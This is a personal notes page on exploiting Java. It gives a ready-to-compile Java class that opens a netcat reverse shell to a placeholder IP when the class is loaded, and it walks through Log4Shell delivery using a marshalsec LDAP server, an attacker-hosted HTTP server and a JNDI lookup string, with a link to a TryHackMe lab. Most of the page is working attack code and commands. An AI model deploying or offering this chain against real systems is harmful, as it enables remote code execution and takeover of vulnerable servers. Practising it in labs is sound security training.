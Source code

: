 # Exploiting Java

**author**:: Nathan Acks  
**date**:: 2022-01-02

## Reverse Shell

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 is the IP you're catching the reverse shell at and 999 is the port of the listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](netcat.md)

## Delivery with Log4Shell

Delivery through a vulnerable version of Log4j is done through a four step process: Malicious string -> LDAP lookup -> load Java code over HTTP -> reverse shell.

A simple Java LDAP server that will handle redirects is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

Once that's done you'll just need to fire up a quick web server to serve the exploit code above and a netcat listener and then find a way to deliver the malicious string (`${jndi:ldap://1.2.3.4:1389/Exploit}`, where 1.2.3.4 is the `$ATTACKER_IP` above) somewhere it will be logged.

Note that a number of other protocols are supported besides LDAP (the marchalsec server supports a few).

* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Quick-n-Dirty Python Web Server](quick-n-dirty-python-web-server.md)
